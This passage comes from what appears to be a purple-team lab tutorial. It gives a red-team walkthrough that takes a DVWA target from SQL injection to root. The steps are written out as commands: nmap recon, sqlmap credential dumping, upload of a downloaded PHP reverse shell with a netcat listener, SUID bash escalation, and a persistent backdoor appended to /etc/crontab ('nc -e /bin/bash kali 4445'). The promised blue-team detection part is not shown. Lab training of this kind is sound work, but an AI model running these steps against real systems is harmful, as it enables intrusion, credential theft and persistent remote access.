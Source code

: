 #### Step 7: Purple Team Exercises
Below are five exercises to exploit DVWA and Metasploitable3 from zero to root and plant backdoors, with blue team detection/response.

---

##### Exercise 1: DVWA SQL Injection to Root with Netcat Backdoor
**Objective**: Exploit SQL injection to gain a shell, escalate to root, and plant a Netcat backdoor.

**Red Team (Kali)**:
1. **Recon**:
   ```bash
   nmap -sV -p 80 dvwa
   ```
2. **SQL Injection**:
   ```bash
   sqlmap -u "http://dvwa:80/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=$(curl -s -I http://dvwa:80 | grep PHPSESSID | cut -d'=' -f2 | cut -d';' -f1)" --dbs --batch
   sqlmap -u "http://dvwa:80/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=<session_id>" -D dvwa --table users --dump
   ```
   Get credentials (e.g., `admin:password`).
3. **Shell**:
   - Log in to `http://localhost:8081`.
   - Download reverse shell:
     ```bash
     curl -o reverse_shell.php https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
     ```
   - Edit `reverse_shell.php`: set `LHOST=kali`, `LPORT=4444`.
   - Upload via DVWA “File Upload”.
   - Listener:
     ```bash
     nc -lvnp 4444
     ```
   - Trigger:
     ```bash
     curl http://dvwa:80/uploads/reverse_shell.php
     ```
4. **Root**:
   ```bash
   whoami  # www-data
   find / -perm -4000 2>/dev/null
   /bin/bash -p
   whoami  # root
   ```
5. **Backdoor**:
   ```bash
   echo "nc -e /bin/bash kali 4445 &" >> /etc/crontab
   service cron restart
   ```
   Listener:
   ```bash
   nc -lvnp 4445
   ```
